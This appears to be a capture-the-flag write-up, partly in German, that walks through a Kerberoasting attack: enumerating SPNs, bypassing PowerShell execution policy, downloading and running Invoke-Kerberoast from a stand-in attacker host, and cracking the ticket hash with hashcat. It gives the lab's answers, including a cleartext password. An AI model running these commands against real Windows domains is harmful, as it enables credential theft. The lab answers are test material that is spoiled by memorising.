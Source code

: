 Kerberos ist ein Authentifizierungsprotokoll, das in Windows-Netzwerken verwendet wird, um Benutzer zu identifizieren und deren Zugriff auf Ressourcen zu verwalten. Es ermöglicht eine sichere Authentifizierung, indem es Tickets verwendet, die von einem zentralen Dienst ausgestellt werden.

Kerberoasting ist eine Angriffstechnik, die auf Schwachstellen in der Art und Weise basiert, wie Kerberos Tickets für bestimmte Dienste verschlüsselt sind. Ein Angreifer kann versuchen, einen speziellen Art von Ticket zu "ernten", der es ihm ermöglicht, das Passwort eines Dienstkontos offline zu knacken.

Answer the questions below
---

1. Lets first enumerate Windows. If we run setspn -T medin -Q ​ */* we can extract all accounts in the SPN.

    SPN is the Service Principal Name, and is the mapping between service and account.

    Running that command, we find an existing SPN. What user is that for?

    **fela**

2. Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

    Lets first download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).

        powershell -ep bypass;

        iex​(New-Object Net.WebClient).DownloadString('https://YOUR_IP/Kerberoast.ps1') 

    Now lets load this into memory: Invoke-Kerberoast -OutputFormat hashcat ​ |fl

    You should get a SPN ticket.

3. Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

    hashcat -m 13100 -​a 0 hash.txt wordlist --force

    Crack the hash. What is the users password in plain text?

    **ruben124**

4. Login as this user. What is his flag?

    **flag{xxxxxxxxxxxxxxxxxxxxxxxxxx}**